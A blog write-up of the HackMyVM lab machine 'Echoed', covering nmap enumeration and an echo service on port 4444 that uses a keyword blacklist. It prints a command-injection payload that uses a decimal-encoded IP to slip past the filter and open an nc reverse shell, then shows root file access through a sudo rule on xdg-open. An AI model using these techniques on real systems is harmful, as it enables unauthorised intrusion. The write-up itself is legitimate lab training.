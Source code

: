 ```yaml
---
layout: post
author: kohaku
title:  "Echoed"
date:   2022-01-01 09:48:24 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Echoed)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Wed Dec 29 20:31:35 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.59
Nmap scan report for 192.168.0.59
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 de:3a:50:8e:5d:21:09:7e:40:3f:b2:07:bb:41:08:7e (RSA)
|   256 5c:57:56:da:e5:1c:3e:bc:9a:a2:8d:6d:21:4e:bc:f9 (ECDSA)
|_  256 f8:aa:dc:d3:27:52:e3:99:32:98:45:5b:52:f0:bc:e1 (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
4444/tcp open  krb524?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 20:34:32 2021 -- 1 IP address (1 host up) scanned in 177.11 seconds
{% endhighlight  %}

# Port 80

{% highlight text  %}
If you dont see Command: prompt in the XXXX port, please restart the VM.
{% endhighlight  %}

# Port 4444

It’s a program that echo what we type, but have some kind of blacklist 

![Untitled](/images/echoed/notBlocked.png)

The following word aren’t block

- numbers
- nc
- -e
- /bin/bash

We can create a reverse shell with those commands

# User

Convert ip to decimal, because  `. (dot)`  is blocked.

[IPv4 Address to IP Decimal Conversion \| IPAddressGuide](https://www.ipaddressguide.com/ip)

{% highlight bash  %}
";nc 3232235736 4444 -e /bin/bash;# 
{% endhighlight  %}
Final payload 

# Root

{% highlight bash  %}
sudo -l

User charlie may run the following commands on echoed:
    (ALL : ALL) NOPASSWD: /usr/bin/xdg-open
{% endhighlight  %}

{% highlight bash  %}
sudo xdg-open /root/root.txt
{% endhighlight  %}